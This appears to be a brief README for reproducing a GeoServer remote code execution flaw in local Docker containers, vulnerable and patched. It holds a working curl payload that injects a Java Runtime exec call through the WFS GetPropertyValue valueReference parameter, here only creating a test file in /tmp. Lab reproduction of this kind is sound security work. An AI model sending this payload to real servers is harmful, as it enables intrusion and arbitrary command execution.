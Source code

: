 # Vulnerable version
```
docker compose -f docker-compose-vuln.yml up
curl "http://127.0.0.1:8080/geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1')"
docker exec -it geoserver-vulnerable-1 /bin/bash
ls /tmp/success1
```
# Patched version
do the same for a secured geoserver instance at 127.0.0.1
```
docker compose -f docker-compose-safe.yml up
curl "http://127.0.0.1:8080/geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success2')"
docker exec -it geoserver-safe-1 /bin/bash
ls /tmp/success2
```
you can see there is no file with this path
